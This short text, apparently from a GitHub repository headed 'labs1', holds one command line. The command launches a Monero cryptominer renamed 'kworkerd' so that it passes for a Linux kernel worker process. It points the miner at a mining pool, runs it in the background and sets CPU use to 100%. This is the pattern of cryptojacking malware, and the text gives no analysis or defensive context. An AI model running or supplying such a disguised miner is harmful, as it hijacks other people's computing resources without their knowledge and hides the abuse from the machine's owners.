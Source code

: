 # labs1

kworkerd -a cryptonight -o stratum+tcp://pool.minerxmr.com:555 -u XXXXX -p x -B -S --donate-level=1 --max-cpu-usage=100 -t 2 
